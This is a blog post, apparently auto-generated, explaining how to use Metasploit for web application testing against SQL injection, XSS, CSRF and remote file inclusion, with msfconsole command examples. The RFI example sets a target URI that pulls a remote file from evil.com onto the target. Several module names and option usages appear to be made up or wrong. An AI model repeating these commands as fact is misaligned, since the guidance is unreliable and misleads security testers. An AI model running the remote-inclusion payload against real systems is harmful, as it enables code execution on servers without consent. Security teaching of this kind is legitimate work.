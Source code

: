 ```yaml
---
title: Metasploit For Web Application Testing Beyond Network Exploits
date: 2024-10-26T17:30:00
image: /blogpics/apipicgen/MetasploitForWebApplicationTestingBeyondNetworkExploits-OAYG3SE6QT.jpg
categories: ["Cybersecurity"]
featured: false
draft: false
---
```

Metasploit is widely recognized as a powerful framework for penetration testing, primarily associated with network exploits. However, its capabilities extend far beyond just network vulnerabilities, making it an invaluable tool for web application testing. In this blog post, we will explore how Metasploit can be effectively utilized for web application security assessments, the types of vulnerabilities it can help identify, and best practices for leveraging its features in this context.

## Understanding Web Application Vulnerabilities

Web applications are often the target of cyberattacks due to their accessibility and the sensitive data they handle. Common vulnerabilities include:

- **SQL Injection (SQLi)**: Attackers can manipulate SQL queries to gain unauthorized access to databases.
- **Cross-Site Scripting (XSS)**: Malicious scripts are injected into web pages viewed by users, potentially compromising their data.
- **Cross-Site Request Forgery (CSRF)**: Users are tricked into executing unwanted actions on a web application in which they are authenticated.
- **Remote File Inclusion (RFI)**: Attackers can include files from remote servers, leading to code execution on the server.

Metasploit provides a suite of tools and modules that can help identify and exploit these vulnerabilities, making it a critical asset for web application security testing.

## Setting Up Metasploit for Web Application Testing

Before diving into web application testing with Metasploit, ensure you have the framework installed and updated. You can install Metasploit on various platforms, including Linux, Windows, and macOS. Once installed, you can start the Metasploit console by running the `msfconsole` command.

### Basic Commands

Familiarize yourself with some basic commands to navigate Metasploit:

- `search`: To find specific modules, including those related to web application testing.
- `use`: To select a module for exploitation.
- `show options`: To display the required parameters for the selected module.
- `set`: To configure options for the module.
- `exploit`: To run the selected module.

## Key Metasploit Modules for Web Application Testing

Metasploit includes various modules specifically designed for web application testing. Here are some of the most useful ones:

### 1. SQL Injection Modules

Metasploit has several modules that can help identify and exploit SQL injection vulnerabilities. For example, the `auxiliary/scanner/http/sql_injection` module can be used to scan web applications for SQL injection points.

#### Example Usage:
```bash
use auxiliary/scanner/http/sql_injection
set RHOSTS target_web_app.com
set RPORT 80
run
```

### 2. XSS Modules

Cross-Site Scripting can be tested using Metasploit's XSS modules. The `exploit/multi/browser/ie_xss` module can be used to exploit XSS vulnerabilities in Internet Explorer.

#### Example Usage:
```bash
use exploit/multi/browser/ie_xss
set RHOST target_web_app.com
set RPORT 80
exploit
```

### 3. CSRF Modules

While CSRF vulnerabilities are often less straightforward to exploit, Metasploit provides tools to help identify potential CSRF issues. The `auxiliary/scanner/http/csrf` module can be used to scan for CSRF vulnerabilities.

#### Example Usage:
```bash
use auxiliary/scanner/http/csrf
set RHOSTS target_web_app.com
run
```

### 4. Remote File Inclusion Modules

For testing Remote File Inclusion vulnerabilities, you can use the `exploit/multi/http/php_rfi` module. This module allows you to exploit RFI vulnerabilities in PHP applications.

#### Example Usage:
```bash
use exploit/multi/http/php_rfi
set RHOST target_web_app.com
set TARGETURI /vulnerable.php?file=http://evil.com/malicious.txt
exploit
```

## Best Practices for Using Metasploit in Web Application Testing

1. **Always Obtain Permission**: Before testing any web application, ensure you have explicit permission from the owner. Unauthorized testing can lead to legal consequences.

2. **Use a Staging Environment**: If possible, conduct tests in a staging environment that mirrors the production environment. This minimizes the risk of disrupting live services.

3. **Combine with Other Tools**: While Metasploit is powerful, it’s often beneficial to use it in conjunction with other tools like Burp Suite, OWASP ZAP, or Nikto for comprehensive testing.

4. **Document Findings**: Keep detailed records of your testing process, findings, and any exploits used. This documentation is crucial for reporting vulnerabilities and providing remediation advice.

5. **Stay Updated**: The Metasploit framework is continuously updated with new modules and features. Regularly update your installation to ensure you have the latest tools at your disposal.

## Conclusion

Metasploit is a versatile tool that can significantly enhance your web application testing efforts. By understanding its capabilities and utilizing the appropriate modules, security professionals can effectively identify and exploit vulnerabilities in web applications. As the landscape of web security continues to evolve, leveraging tools like Metasploit will remain essential for safeguarding applications against potential threats.